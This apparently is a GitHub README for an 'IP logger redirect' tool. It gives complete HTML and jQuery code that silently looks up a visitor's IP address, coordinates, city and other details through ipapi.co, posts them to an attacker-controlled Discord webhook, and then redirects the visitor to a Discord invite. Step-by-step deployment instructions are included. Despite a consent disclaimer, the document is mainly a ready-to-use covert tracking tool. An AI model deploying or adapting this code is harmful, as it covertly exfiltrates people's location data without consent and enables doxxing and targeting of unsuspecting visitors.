 

---

# IP Logger Redirect Script

This repository contains a script designed to log IP addresses and other information about users who visit a particular web page, and then redirects them to a Discord server.

## How It Works

1. **HTML Structure**: The HTML page displays a simple "HELLO" message and includes jQuery.
2. **JavaScript Execution**:
   - The script uses `ipapi.co` to get the visitor's IP address and other details.
   - This information is then sent to a Discord webhook.
   - Finally, the user is redirected to a specified Discord server.

## Code Explanation

### HTML Structure

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Redirecting...</title>
    <meta charset="utf-8" />
    <h1><center>Star the repo pls</center></h1>
    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.6.0/jquery.min.js" charset="utf-8"></script>
  </head>
  <body>
    <script type="text/javascript">
      // JavaScript code here
    </script>
  </body>
</html>
```

### JavaScript

```javascript
var WEBURL = " Webhook link here";

$.getJSON("https://ipapi.co/json/", function (data) {
   $.post(WEBURL, {
        content:
          "Ip : " +
          data.ip +
          "Latitude : " +
          data.latitude +
          "Longitude : " +
          data.longitude +
          "\nCity : " +
          data.city +
          "\nCountry : " +
          data.country_name +
          "\nTimeZone : " +
          data.timezone +
          "\nCurrency : " +
          data.currency_name +
          "\nLanguages : " +
          data.languages +
          "\nNumber-Code : " +
          data.country_calling_code +
          "\n@here",

        username: "M7's Logger",
        avatar_url: null,
      });
});

window.location.href = " INVITE LINK OR ANY OTHER LINK";
```

## Ethical Considerations

Please be aware that logging personal information without the user's consent is unethical and potentially illegal. This script collects and sends sensitive information such as IP address, location, and other details to a third party. Use this script responsibly and ensure compliance with privacy laws and regulations.

## Usage

To use this script, host the HTML file on a web server. When users visit the page, their information will be logged and they will be redirected to the specified Discord server.

## Disclaimer

This script is for educational purposes only. The author is not responsible for any misuse of the code. Always respect user privacy and obtain proper consent before collecting any personal information.

---

### Example Usage:

1. Clone the repository:

   ```sh
   git clone https://github.com/yourusername/ip-logger-redirect.git
   ```

2. Host the HTML file on your preferred web server.

3. Update the `WEBURL` variable in the JavaScript code with your Discord webhook URL.

4. Access the hosted HTML page. The script will log user information and redirect them.

---

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

---

